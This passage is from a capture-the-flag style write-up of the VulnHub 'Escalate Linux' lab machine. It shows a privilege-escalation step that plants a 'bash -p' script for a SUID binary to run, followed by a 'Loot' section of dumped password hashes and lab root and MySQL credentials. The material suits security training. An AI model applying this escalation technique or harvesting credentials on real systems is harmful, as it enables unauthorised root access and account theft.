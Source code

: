 ![writeup.privesc.steps.4.2](Box%20Write-ups/vulnhub.escalatelinux/screenshot08a.png)  

5\. We find that the `/home/user3/shell` file requries a `.script.sh` file and needs it to have executable permissions. We create this file and test out the `shell` file which gives us an elevated shell:  
``` {.python .numberLines}
echo -en "bash -p" >>./.script.sh
chmod +x ./.script.sh
/home/user3/shell

```

![writeup.privesc.steps.5.1](Box%20Write-ups/vulnhub.escalatelinux/screenshot09.png)  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$mqjgcFoM$X/qNpZR6gXPAxdgDjFpaD1yPIqUF5l5ZDANRTKyvcHQwSqSxX5lA7n22kjEkQhSP6Uq7cPaYfzPSmgATM........................
user1:$6$9iyn/lCu$UxlOZYhhFSAwJ8DPjlrjrl2Wv.Pz9DahMTfwpwlUC5ybyBGpuHToNIIjTqMLGSh0R2Ch4Ij5gkmP0eEH2........................
user2:$6$7gVE7KgT$ud1VN8OwYCbFveieo4CJQIoMcEgcfKqa24ivRs/MNAmmPeudsz/p3QeCMHj8ULlvSufZmp3TodaWlIFSZ........................
user3:$6$PaKeECW4$5yMn9UU4YByCj0LP4QWaGt/S1aG0Zs73EOJXh.Rl0ebjpmsBmuGUwTgBamqCCx7qZ0sWJOuzIqn.GM69a........................
user4:$6$0pxj6KPl$NA5S/2yN3TTJbPypEnsqYe1PrgbfccHntMggLdU2eM5/23dnosIpmD8sRJwI1PyDFgQXH52kYk.bzc6sA........................
user5:$6$wndyaxl9$cOEaymjMiRiljzzaSaFVXD7LFx2OwOxeonEdCW.GszLm77k0d5GpQZzJpcwvufmRndcYatr5ZQESdqbIs........................
user6:$6$Y9wYnrUW$ihpBL4g3GswEay/AqgrKzv1n8uKhWiBNlhdKm6DdX7WtDZcUbh/5w/tQELa3LtiyTFwsLsWXubsSCfzRc........................
mysql:$6$O2ymBAYF$NZDtY392guzYrveKnoISea6oQpv87OpEjEef5KkEUqvtOAjZ2i1UPbkrfmrHG/IonKdnYEec0S0ZBcQFZ........................
user7:$6$5RBuOGFi$eJrQ4/xf2z/3pG43UkkoE35Jb0BIl7AW/umj1Xa7eykmalVKiRKJ4w3vFEOEOtYinnkIRa.89dXtGQXdH........................
user8:$6$fdtulQ7i$G9THW4j6kUy4bXlf7C/0XQtntw123LRVRfIkJ6akDLPHIqB5PJLD4AEyz7wXsEhMc2XC4CqiTxATfb20x........................
```
### Credentials
``` {.python .numberLines}
ssh: root/123..
mysql: mysql/mysql@1....
```

## References
[+] <https://www.vulnhub.com/entry/escalate_linux-1,323/>  
